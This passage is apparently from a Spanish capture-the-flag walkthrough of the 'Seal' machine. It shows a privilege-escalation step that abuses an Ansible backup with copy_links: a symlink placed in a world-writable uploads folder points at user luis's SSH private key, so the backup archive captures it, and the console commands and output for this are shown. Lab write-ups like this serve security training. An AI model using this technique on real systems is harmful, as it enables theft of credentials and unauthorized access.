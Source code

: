     - Crea un archivo comprimido (formato `.gz`) con el contenido del directorio `/opt/backups/files/`.
    - El archivo de backup se guarda en `/opt/backups/archives/` con un nombre que incluye la fecha y la hora actuales (utilizando las variables `{{ansible_date_time.date}}` y `{{ansible_date_time.time}}`).
3. **Limpiar**:
    
    - Elimina el directorio `/opt/backups/files/` y su contenido.

Viendo la opción de `copy_links` podríamos crear un enlace simbólico haciendo referencia a la clave privada de `luis` y ver si luego podemos leerla cuando se haga el backup.

Vemos que tenemos permiso de escritura en el directorio `uploads`
```console
(remote) tomcat@seal:/var/lib/tomcat9/webapps/ROOT/admin/dashboard$ ls -la
total 100
drwxr-xr-x 7 root root  4096 May  7  2021 .
drwxr-xr-x 3 root root  4096 May  6  2021 ..
drwxr-xr-x 5 root root  4096 Mar  7  2015 bootstrap
drwxr-xr-x 2 root root  4096 Mar  7  2015 css
drwxr-xr-x 4 root root  4096 Mar  7  2015 images
-rw-r--r-- 1 root root 71744 May  6  2021 index.html
drwxr-xr-x 4 root root  4096 Mar  7  2015 scripts
drwxrwxrwx 2 root root  4096 May  7  2021 uploads
```

```console
(remote) tomcat@seal:/var/lib/tomcat9/webapps/ROOT/admin/dashboard$ cd uploads
(remote) tomcat@seal:/var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads$ ls
(remote) tomcat@seal:/var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads$ touch test
(remote) tomcat@seal:/var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads$ ls
test
```

Creamos el enlace simbólico
```console
(remote) tomcat@seal:/var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads$ ln -s /home/luis/.ssh/id_rsa id_rsa
(remote) tomcat@seal:/var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads$ ls -la
total 8
drwxrwxrwx 2 root   root   4096 Aug 31 19:14 .
drwxr-xr-x 7 root   root   4096 May  7  2021 ..
lrwxrwxrwx 1 tomcat tomcat   22 Aug 31 19:14 id_rsa -> /home/luis/.ssh/id_rsa
-rw-r----- 1 tomcat tomcat    0 Aug 31 19:13 test
```

Cuando se hace el backup, nos copiamos el comprimido.
```console
(remote) tomcat@seal:/opt/backups/archives$ cp backup-2024-08-31-19:16:31.gz /tmp/2.gz
```

Lo extraemos.
```console
(remote) tomcat@seal:/tmp$ tar -xvf 2.gz                                                                                                                                                                                                         
dashboard/                                                                                                                                                                                                                                    
dashboard/scripts/                                                                                                                                                                                                                            
dashboard/images/                                                                                                                                                                                                                             
dashboard/css/                                                                                                                                                                                                                                
```